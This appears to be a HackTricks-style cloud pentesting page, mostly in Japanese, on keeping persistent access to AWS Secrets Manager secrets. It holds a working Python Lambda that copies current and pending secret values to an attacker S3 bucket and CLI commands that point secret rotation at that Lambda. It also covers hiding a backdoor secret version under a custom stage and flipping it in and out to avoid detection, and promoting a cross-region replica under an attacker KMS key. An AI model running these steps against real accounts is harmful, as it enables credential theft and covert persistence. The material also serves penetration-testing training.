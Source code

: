# AWS - Secrets Manager 永続化

{{#include ../../../../banners/hacktricks-training.md}}

## Secrets Manager

詳細は以下を参照してください:

{{#ref}}
../../aws-services/aws-secrets-manager-enum.md
{{#endref}}

### リソースポリシー経由

リソースポリシーを使って、外部アカウントに**シークレットへのアクセスを付与する**ことが可能です。詳しくは[**Secrets Manager Privesc page**](../../aws-privilege-escalation/aws-secrets-manager-privesc/README.md)を確認してください。シークレットに**アクセスする**ためには、外部アカウントがシークレットを暗号化している**KMSキーへのアクセス**も必要である点に注意してください。

### Secrets Rotate Lambda経由

シークレットを自動で**rotate secrets**するために、設定された**Lambda**が呼び出されます。攻撃者が**change**して**code**を改変できれば、新しいシークレットを直接**exfiltrate the new secret**することが可能になります。

このような処理を行うLambda codeの例は次の通りです:
```python
import boto3

def rotate_secrets(event, context):
# Create a Secrets Manager client
client = boto3.client('secretsmanager')

# Retrieve the current secret value
secret_value = client.get_secret_value(SecretId='example_secret_id')['SecretString']

# Rotate the secret by updating its value
new_secret_value = rotate_secret(secret_value)
client.update_secret(SecretId='example_secret_id', SecretString=new_secret_value)

def rotate_secret(secret_value):
# Perform the rotation logic here, e.g., generate a new password

# Example: Generate a new password
new_secret_value = generate_password()

return new_secret_value

def generate_password():
# Example: Generate a random password using the secrets module
import secrets
import string
password = ''.join(secrets.choice(string.ascii_letters + string.digits) for i in range(16))
return password
```
### RotateSecret を使ってローテーション用 Lambda を攻撃者制御の関数に差し替える

`secretsmanager:RotateSecret` を悪用してシークレットを攻撃者制御の rotation Lambda に再バインドし、即時ローテーションをトリガーします。悪意ある関数はローテーションの各ステップ(createSecret/setSecret/testSecret/finishSecret)の間にシークレットのバージョン(AWSCURRENT/AWSPENDING)を攻撃者の受け皿（例: S3 や外部 HTTP）へ exfiltrate します。

- 要件
- 権限: `secretsmanager:RotateSecret`、攻撃者 Lambda に対する `lambda:InvokeFunction`、Lambda 実行ロールをプロビジョニングするための `iam:CreateRole/PassRole/PutRolePolicy`（または AttachRolePolicy）でロールに `secretsmanager:GetSecretValue`（可能なら `secretsmanager:PutSecretValue`）、`secretsmanager:UpdateSecretVersionStage`（ローテーション継続のため）、シークレットの KMS キーに対する KMS `kms:Decrypt`、および exfiltration 用の `s3:PutObject`（または外部への送信許可）。
- ローテーションが有効になっている、または有効化できる対象の Secret id (`SecretId`)。

- 影響
- 攻撃者は正規のローテーションコードを変更せずにシークレット値を取得できます。ローテーション設定のみを攻撃者の Lambda を指すように変更します。検出されなければ、今後スケジュールされたローテーションも攻撃者の関数を呼び続けます。

- 攻撃手順 (CLI)
1) 攻撃者の受け皿と Lambda 実行ロールを準備する
- exfiltration 用の S3 バケットを作成し、Lambda に信頼された実行ロールを作成してシークレットを読み取り S3 に書き込む権限（必要に応じてログ/KMS 権限も）を付与する。
2) 攻撃者 Lambda をデプロイする
- 各ローテーションステップでシークレット値を取得して S3 に書き込む攻撃者 Lambda をデプロイする。最小限のローテーションロジックは AWSCURRENT を AWSPENDING にコピーし、finishSecret で昇格させるだけでサービスを維持できる。
3) ローテーションを再バインドしてトリガーする
- `aws secretsmanager rotate-secret --secret-id <SECRET_ARN> --rotation-lambda-arn <ATTACKER_LAMBDA_ARN> --rotation-rules '{"ScheduleExpression":"rate(10 days)"}' --rotate-immediately`
4) そのシークレットの S3 プレフィックスを列挙し JSON アーティファクトを確認して exfiltration を検証する。
5) （オプション）検出を抑えるため元のローテーション Lambda を復元する。

- S3 に exfiltrate する攻撃者 Lambda (Python) の例
- Environment: `EXFIL_BUCKET=<bucket>`
- Handler: `lambda_function.lambda_handler`
```python
import boto3, json, os, base64, datetime
s3 = boto3.client('s3')
sm = boto3.client('secretsmanager')
BUCKET = os.environ['EXFIL_BUCKET']

def write_s3(key, data):
s3.put_object(Bucket=BUCKET, Key=key, Body=json.dumps(data).encode('utf-8'), ContentType='application/json')

def lambda_handler(event, context):
sid, token, step = event['SecretId'], event['ClientRequestToken'], event['Step']
# Exfil both stages best-effort
def getv(**kw):
try:
r = sm.get_secret_value(**kw)
return {'SecretString': r.get('SecretString')} if 'SecretString' in r else {'SecretBinary': base64.b64encode(r['SecretBinary']).decode('utf-8')}
except Exception as e:
return {'error': str(e)}
current = getv(SecretId=sid, VersionStage='AWSCURRENT')
pending = getv(SecretId=sid, VersionStage='AWSPENDING')
key = f"{sid.replace(':','_')}/{step}/{token}.json"
write_s3(key, {'time': datetime.datetime.utcnow().strftime('%Y-%m-%dT%H:%M:%SZ'), 'step': step, 'secret_id': sid, 'token': token, 'current': current, 'pending': pending})
# Minimal rotation (optional): copy current->pending and promote in finishSecret
# (Implement createSecret/finishSecret using PutSecretValue and UpdateSecretVersionStage)
```
### Version Stage Hijacking for Covert Persistence (custom stage + fast AWSCURRENT flip)

Secrets Manager のバージョンステージラベルを悪用して、攻撃者が制御するシークレットのバージョンを仕込み、production が元の `AWSCURRENT` を使い続ける間にカスタムステージ（例: `ATTACKER`）の下に隠しておきます。任意のタイミングで `AWSCURRENT` を攻撃者のバージョンに移して依存するワークロードを汚染し、その後すぐに元に戻して検出を最小化します。これにより、シークレット名やローテーション設定を変更せずに、ステルスなバックドア永続化と迅速な使用時操作が可能になります。

- 要件
- 必要な権限: `secretsmanager:PutSecretValue`, `secretsmanager:UpdateSecretVersionStage`, `secretsmanager:DescribeSecret`, `secretsmanager:ListSecretVersionIds`, `secretsmanager:GetSecretValue` (検証用)
- 対象の secret id（対象リージョン）

- 影響
- シークレットの攻撃者制御のバージョンを隠して保持し、必要に応じて原子的に `AWSCURRENT` をそれに切り替えることで、同じシークレット名を解決するすべての利用者に影響を与えます。切り替えと即時のリバートにより検知される可能性を下げつつ、使用時点での乗っ取りを可能にします。

- 攻撃手順 (CLI)
- 準備
- `export SECRET_ID=<target secret id or arn>`

<details>
<summary>CLI コマンド</summary>
```bash
# 1) Capture current production version id (the one holding AWSCURRENT)
CUR=$(aws secretsmanager list-secret-version-ids \
--secret-id "$SECRET_ID" \
--query "Versions[?contains(VersionStages, AWSCURRENT)].VersionId | [0]" \
--output text)

# 2) Create attacker version with known value (this will temporarily move AWSCURRENT)
BACKTOK=$(uuidgen)
aws secretsmanager put-secret-value \
--secret-id "$SECRET_ID" \
--client-request-token "$BACKTOK" \
--secret-string {backdoor:hunter2!}

# 3) Restore production and hide attacker version under custom stage
aws secretsmanager update-secret-version-stage \
--secret-id "$SECRET_ID" \
--version-stage AWSCURRENT \
--move-to-version-id "$CUR" \
--remove-from-version-id "$BACKTOK"

aws secretsmanager update-secret-version-stage \
--secret-id "$SECRET_ID" \
--version-stage ATTACKER \
--move-to-version-id "$BACKTOK"

# Verify stages
aws secretsmanager list-secret-version-ids --secret-id "$SECRET_ID" --include-deprecated

# 4) On-demand flip to the attacker’s value and revert quickly
aws secretsmanager update-secret-version-stage \
--secret-id "$SECRET_ID" \
--version-stage AWSCURRENT \
--move-to-version-id "$BACKTOK" \
--remove-from-version-id "$CUR"

# Validate served plaintext now equals the attacker payload
aws secretsmanager get-secret-value --secret-id "$SECRET_ID" --query SecretString --output text

# Revert to reduce detection
aws secretsmanager update-secret-version-stage \
--secret-id "$SECRET_ID" \
--version-stage AWSCURRENT \
--move-to-version-id "$CUR" \
--remove-from-version-id "$BACKTOK"
```
</details>

- 注記
- `--client-request-token` を指定すると、Secrets Manager はそれを `VersionId` として使用します。`--version-stages` を明示的に設定せずに新しいバージョンを追加すると、デフォルトで `AWSCURRENT` が新しいバージョンに移動し、以前のものが `AWSPREVIOUS` としてマークされます。


### Cross-Region Replica Promotion Backdoor (replicate ➜ promote ➜ permissive policy)

Secrets Manager の multi-Region replication を悪用して、ターゲット secret のレプリカを監視の緩い Region に作成し、その Region の attacker 制御の KMS キーで暗号化します。次にレプリカをスタンドアロンの secret に promote し、attacker に読み取りアクセスを付与する permissive resource policy をアタッチします。primary Region にある元の secret は変更されないため、promoted replica を介して secret 値への持続的かつステルスなアクセスを確保し、primary の KMS/ポリシー制約を回避できます。

- 要件
- 権限: `secretsmanager:ReplicateSecretToRegions`, `secretsmanager:StopReplicationToReplica`, `secretsmanager:PutResourcePolicy`, `secretsmanager:GetResourcePolicy`, `secretsmanager:DescribeSecret`.
- replica Region では: `kms:CreateKey`, `kms:CreateAlias`, `kms:CreateGrant` (または `kms:PutKeyPolicy`) が必要で、attacker principal に対して `kms:Decrypt` を許可できること。
- promoted secret に対して読み取りアクセスを受け取る attacker principal (user/role)。

- 影響
- attacker-controlled の KMS CMK および permissive resource policy 下のスタンドアロンレプリカを介した、secret 値への持続的なクロス-Region アクセス経路。元の Region にある primary secret は変更されません。

- 攻撃（CLI）
- 変数
```bash
export R1=<primary-region>   # e.g., us-east-1
export R2=<replica-region>   # e.g., us-west-2
export SECRET_ID=<secret name or ARN in R1>
export ACCOUNT_ID=$(aws sts get-caller-identity --query Account --output text)
export ATTACKER_ARN=<arn:aws:iam::<ACCOUNT_ID>:user/<attacker> or role>
```
1) レプリカ Region に攻撃者が制御する KMS キーを作成する
```bash
cat > /tmp/kms_policy.json <<'JSON'
{"Version":"2012-10-17","Statement":[
{"Sid":"EnableRoot","Effect":"Allow","Principal":{"AWS":"arn:aws:iam::${ACCOUNT_ID}:root"},"Action":"kms:*","Resource":"*"}
]}
JSON
KMS_KEY_ID=$(aws kms create-key --region "$R2" --description "Attacker CMK for replica" --policy file:///tmp/kms_policy.json \
--query KeyMetadata.KeyId --output text)
aws kms create-alias --region "$R2" --alias-name alias/attacker-sm --target-key-id "$KMS_KEY_ID"
# Allow attacker to decrypt via a grant (or use PutKeyPolicy to add the principal)
aws kms create-grant --region "$R2" --key-id "$KMS_KEY_ID" --grantee-principal "$ATTACKER_ARN" --operations Decrypt DescribeKey
```
2) attacker KMS key を使用してシークレットを R2 に複製する
```bash
aws secretsmanager replicate-secret-to-regions --region "$R1" --secret-id "$SECRET_ID" \
--add-replica-regions Region=$R2,KmsKeyId=alias/attacker-sm --force-overwrite-replica-secret
aws secretsmanager describe-secret --region "$R1" --secret-id "$SECRET_ID" | jq '.ReplicationStatus'
```
3) R2でレプリカをスタンドアロンに昇格させる
```bash
# Use the secret name (same across Regions)
NAME=$(aws secretsmanager describe-secret --region "$R1" --secret-id "$SECRET_ID" --query Name --output text)
aws secretsmanager stop-replication-to-replica --region "$R2" --secret-id "$NAME"
aws secretsmanager describe-secret --region "$R2" --secret-id "$NAME"
```
4) R2 の単独のシークレットに対して許容的なリソースポリシーを添付する
```bash
cat > /tmp/replica_policy.json <<JSON
{"Version":"2012-10-17","Statement":[{"Sid":"AttackerRead","Effect":"Allow","Principal":{"AWS":"${ATTACKER_ARN}"},"Action":["secretsmanager:GetSecretValue"],"Resource":"*"}]}
JSON
aws secretsmanager put-resource-policy --region "$R2" --secret-id "$NAME" --resource-policy file:///tmp/replica_policy.json --block-public-policy
aws secretsmanager get-resource-policy --region "$R2" --secret-id "$NAME"
```
5) R2 の attacker principal から secret を読み取る
```bash
# Configure attacker credentials and read
aws secretsmanager get-secret-value --region "$R2" --secret-id "$NAME" --query SecretString --output text
```
{{#include ../../../../banners/hacktricks-training.md}}
